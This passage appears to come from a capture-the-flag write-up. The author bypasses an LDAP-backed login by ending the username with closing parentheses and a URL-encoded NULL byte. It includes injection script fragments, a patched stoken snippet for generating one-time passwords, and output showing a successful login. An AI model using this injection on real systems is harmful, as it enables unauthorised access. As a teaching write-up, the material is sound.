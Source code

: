 What I need to do now is trick the server into letting me log in as `ldapuser` but also skip whatever group membership check is done on `page.php`.

Assuming the LDAP query is something like: `(&(uid=user)(|(gid=root)(gid=adm))(token=*))`, it seems impossible to inject the query in a way that'll make the query valid and also skip the last part of the query. What I can do however is use a NULL character in the username so I can terminate the LDAP query wherever I want.

I modifed my earlier script to add an extra NULL byte at the end (URL encoded):
```python
data = {
			"inputUsername": urllib.quote(cmd)+'%00',
			"inputOTP": "12345",
		}
```

I just need to find how many parentheses are required to close the query:
```
# python ldapinject.py 
> ldapuser)
ldapuser%29%00

> ldapuser))
ldapuser%29%29%00

> ldapuser)))
ldapuser%29%29%29%00
Cannot login    
```

That last query was valid. What I do next is modify the script a little more so I can send a valid login request with the correct OTP:
```python
data = {
			"inputUsername": urllib.quote(cmd)+'%00',
			"inputOTP": str(sys.argv[1]),
		}
```

I recompiled `cli.c` in the stoken source code to use a hardcoded PIN of `0000` so I can pipe the token directly with user input. Yes I know you can pass a parameter to specify the PIN but I found out after, haha.

```c
if (get_pin && securid_pin_required(t) && (!strlen(t->pin) || opt_pin)) {
	xstrncpy(t->pin, "0000", 4);
}
```

This make using the injection script a bit easier:
```
# ./stoken
14780441

# python ldapinject.py $(./stoken)
> ldapuser)))
ldapuser%29%29%29%00
Login ok    
{'Content-Length': '2818', 'X-Powered-By': 'PHP/5.4.16', 'Set-Cookie': 'PHPSESSID=urdd46i8obcnkkso4glf66cic1; path=/', 'Expires': 'Thu, 19 Nov 1981 08:52:00 GMT', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16', 'Connection': 'Keep-Alive', 'Location': '/page.php', 'Pragma': 'no-cache', 'Cache-Control': 'no-store, no-cache, must-revalidate, post-check=0, pre-check=0', 'Date': 'Tue, 05 Feb 2019 02:20:43 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
```
